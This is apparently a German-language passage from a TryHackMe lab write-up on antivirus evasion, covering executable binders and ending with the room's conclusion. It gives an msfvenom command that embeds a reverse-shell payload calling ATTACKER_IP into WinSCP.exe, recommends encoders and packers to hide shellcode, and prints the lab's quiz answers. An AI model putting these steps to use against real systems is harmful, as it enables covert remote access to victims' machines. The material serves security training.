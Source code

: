 Für diese Aufgabe werden wir die WinSCP.exe rückseitig bearbeiten, die unter `C:\Tools\WinSCP` verfügbar ist.

Um eine rückseitige WinSCP.exe zu erstellen, verwenden wir den folgenden Befehl auf unserem Windows-Rechner:

Hinweis: Metasploit ist auf dem Windows-Rechner zur Vereinfachung installiert, aber die Generierung des Payloads kann bis zu drei Minuten dauern (die produzierten Warnungen können sicher ignoriert werden).
```cmd
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

Die resultierende WinSCP-evil.exe wird einen reverse_tcp Meterpreter Payload ausführen, ohne dass der Benutzer es bemerkt. Bevor Sie etwas anderes tun, denken Sie daran, einen `nc` Listener einzurichten, um die Reverse-Shell zu empfangen. Wenn Sie Ihre modifizierte ausführbare Datei ausführen, sollte sie eine Reverse-Shell zu Ihnen zurück starten, während WinSCP.exe weiterhin für den Benutzer ausgeführt wird.  
![Auführung von einer Payload](Bilder/2024-07-05-Auführung-von-einer-Payload.png)

### Binders und AV

Binder werden nicht viel dazu beitragen, Ihren Payload vor einer AV-Lösung zu verbergen. Die einfache Tatsache, dass zwei ausführbare Dateien ohne Änderungen zusammengefügt werden, bedeutet, dass die resultierende ausführbare Datei immer noch jede Signatur auslösen wird, die der ursprüngliche Payload ausgelöst hätte.

Der Hauptzweck von Bindern besteht darin, Benutzer dazu zu bringen zu glauben, dass sie eine legitime ausführbare Datei ausführen, anstatt einen bösartigen Payload.

Bei der Erstellung eines echten Payloads möchten Sie möglicherweise Encoder, Crypter oder Packer verwenden, um Ihren Shellcode vor signaturbasierten AVs zu verbergen, und ihn dann in eine bekannte ausführbare Datei binden, sodass der Benutzer nicht weiß, was ausgeführt wird.

Versuchen Sie gerne, Ihre gebundene ausführbare Datei auf der THM Antivirus Check-Website (Link auf Ihrem Desktop verfügbar) ohne Verpackung hochzuladen. Sie sollten eine Erkennung vom Server zurückbekommen. Diese Methode wird also nicht besonders hilfreich sein, wenn Sie versuchen, die Flagge vom Server selbst zu erhalten.

## Fragen:
Wird ein Binder helfen, AV-Lösungen zu umgehen? (ja/nein)
```
nein
```

Kann ein Binder verwendet werden, um einen Payload als legitime ausführbare Datei erscheinen zu lassen? (ja/nein)
```
ja
```

# Task 11 - Abschluss
In diesem Raum haben wir einige Strategien erkundet, die einem Angreifer zur Verfügung stehen, um AV-Engines zu umgehen, die ausschließlich auf der Erkennung auf der Festplatte basieren. Obwohl dies nur einer der Mechanismen ist, die jeder modernen AV-Engine zur Verfügung stehen, sollten wir zumindest unsere Payloads auf die Festplatte unseres Opfers übertragen können. Das [Umgehen der Erkennung im Speicher und anderer fortschrittlicher Erkennungsmechanismen](https://tryhackme.com/r/room/runtimedetectionevasion) bleibt einem zukünftigen Raum vorbehalten. Möglicherweise möchten Sie die Runtime Detection Evasion für weitere Informationen über das Umgehen weiterer Windows-Sicherheitsmechanismen überprüfen, die verhindern könnten, dass Ihre Payloads ausgelöst werden.

Denken Sie daran, dass der Erfolg eines Verschlüsselers, Encoders oder Packers weitgehend davon abhängt, dass AV-Engines keine Signaturen dafür kennen. Daher ist es entscheidend, Ihre eigenen Payloads anpassen zu können, wenn Sie versuchen, jede realitätsnahe Lösung zu umgehen.
